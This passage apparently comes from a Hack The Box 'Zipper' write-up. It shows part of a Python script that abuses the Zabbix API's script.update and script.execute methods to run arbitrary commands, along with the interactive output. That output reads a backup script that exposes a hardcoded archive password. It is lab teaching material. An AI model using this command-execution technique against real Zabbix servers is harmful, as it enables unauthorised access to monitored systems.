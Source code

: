 ```python
    payload = {
        "jsonrpc": "2.0",
        "method": "script.update",
        "params": {
            "scriptid": "1",
            "command": ""+cmd+""
        },
        "auth" : auth['result'],
        "id" : 0,
    }
 
    cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))
 
# execute
    payload = {
        "jsonrpc": "2.0",
        "method": "script.execute",
        "params": {
            "scriptid": "1",
            "hostid": host_id['result'][0]['hostid'],
        },
        "auth" : auth['result'],
        "id" : 0,
    }
 
    cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
    cmd_exe = cmd_exe.json()
    print cmd_exe["result"]["value"]
```

```
root@kali:~/htb# ./zipper.py 
[zabbix_cmd]>>:  whoami
zabbix

[zabbix_cmd]>>:  hostname
c1b730b82aad
```

We find Zapper's backup script in `/usr/lib/zabbix/externalscripts`.

```
[zabbix_cmd]>>:  cat /usr/lib/zabbix/externalscripts/backup_script.sh
#!/bin/bash
# zapper wanted a way to backup the zabbix scripts so here it is:
7z a /backups/zabbix_scripts_backup-$(date +%F).7z -pZippityDoDah /usr/lib/zabbix/externalscripts/* &>/dev/nul
```

And we have a password!

## Getting User
